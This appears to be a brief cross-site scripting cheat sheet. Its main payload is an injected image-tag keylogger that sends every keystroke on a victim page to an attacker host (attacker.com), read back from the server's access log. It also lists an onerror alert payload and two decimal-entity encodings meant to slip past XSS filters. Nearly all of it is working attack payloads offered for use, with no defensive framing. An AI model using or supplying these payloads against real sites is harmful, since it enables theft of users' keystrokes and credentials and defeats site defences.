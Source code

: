 XSS (Cross-site Scripting)
======
XSS is a type of attack in which malicious scripts are injected and executed into the victim trusted website.

Simple XSS Keylogger
======
This simple keylogger send an request to the attacker website with the key that was pressed on the page
```html
<img src=x onerror='document.onkeypress=function(e){fetch("http://attacker.com?k="+String.fromCharCode(e.which))}, this.remove();'>
```
To check all the records, simply check your access.log on the server

XSS on EventListeners
======
#### onerror
Trigger the event by sending a malformed src attribute
```html
<img src=x onerror="alert('XSS')">
```

XSS filter evasion
======
#### decimal encode
You can bypass some XSS filters encoding the script with decimal system
```html
<img src=x onerror="&#97&#108&#101&#114&#116&#40&#49&#41">
```

#### decimal encode with padding
To improve the decimal encoding, you can padding the values to complete 7 digits with 0
```html
<img src=x onerror="&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000049&#0000041">
```